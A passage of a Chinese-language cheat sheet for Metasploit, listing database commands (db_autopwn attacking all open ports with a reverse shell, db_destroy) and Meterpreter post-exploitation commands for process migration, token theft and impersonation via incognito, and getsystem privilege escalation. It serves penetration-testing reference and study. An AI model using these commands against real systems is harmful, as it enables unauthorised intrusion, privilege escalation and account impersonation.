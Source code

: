 db_autopwn -p -r -e 

对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell。

db_destroy 

删除当前数据库。

db_destroy user:password@host:port/database

使用高级选项来删除数据库。

 

2.metapreter命令

help

打开帮助

run scriptname

运行meterpreter脚本，在scripts/meterpreter目录下可查看到所有脚本名。

sysinfo

列出受控主机的系统信息。

ls 

列出目标主机的文件和文件夹信息。

use priv

加载特权提升扩展模块，来扩展meterpreter库。

ps

显示所有运行进程以及关联的用户账户。

migrate PID

迁移到一个指定的进程ID

use incognito 

加载inconito功能（用来盗取目标主机的令牌或是假冒用户）

list_tokens -u

列出目标主机用户组的可用令牌。

impersonate_token DOMAIN_NAME\\USERNAME

假冒目标主机上的可用令牌。

steal_token

盗窃给定进程的可用令牌并进行令牌假冒。

drop_token

停止假冒当前的令牌。

getsystem
